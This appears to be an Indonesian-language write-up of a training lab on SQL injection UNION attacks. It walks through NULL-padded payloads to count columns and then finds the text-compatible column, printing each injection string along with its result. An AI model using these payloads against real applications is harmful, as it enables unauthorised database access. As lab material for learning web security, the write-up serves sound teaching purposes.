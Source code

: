 # SQL Injection UNION attack, finding a column containing text

---

## Challenge Overview

**Title:** SQL Injection UNION attack, finding a column containing text

**Category:** Injection (SQLi)

Lab ini menguji teknik **SQL Injection UNION attack** untuk:

1. Menentukan jumlah kolom dari query asli.
2. Menemukan kolom yang kompatibel dengan tipe data string.
3. Menampilkan string acak yang diberikan lab (`IKBbF5`) di hasil query agar lab dianggap **Solved**.

---

## Tools Used

* **Burp Suite** → untuk intercept & modifikasi request kategori produk.
* **Web Browser** → untuk memverifikasi hasil langsung di UI aplikasi.

---

## Step by Step Solution

### 1. Tentukan jumlah kolom

Coba payload dengan `NULL` bertahap:

```sql
'+UNION+SELECT+NULL--          → error
'+UNION+SELECT+NULL,NULL--     → error
'+UNION+SELECT+NULL,NULL,NULL-- → berhasil
```
![alt text](assets/mandiri17.jpg)
![alt text](assets/mandiri16.jpg)
* Query asli punya **3 kolom**.

---

### 2. Uji kolom string-compatible

Kita masukkan string `IKBbF5` ke setiap kolom:

* **Kolom 1**:

  ```sql
  '+UNION+SELECT+'IKBbF5',NULL,NULL--
  ```

  → tidak tampil.

* **Kolom 2**:

  ```sql
  '+UNION+SELECT+NULL,'IKBbF5',NULL--
  ```

  → string `IKBbF5` muncul 

* **Kolom 3**:

  ```sql
  '+UNION+SELECT+NULL,NULL,'IKBbF5'--
  ```

  → tidak muncul.

Jadi **kolom ke-2** kompatibel dengan string.

---

### Step 3: Payload final

Payload yang berhasil:

```sql
'+UNION+SELECT+NULL,'IKBbF5',NULL--
```
![alt text](assets/mandiri15.jpg)
Hasil: string `IKBbF5` muncul di halaman produk → lab **Solved** 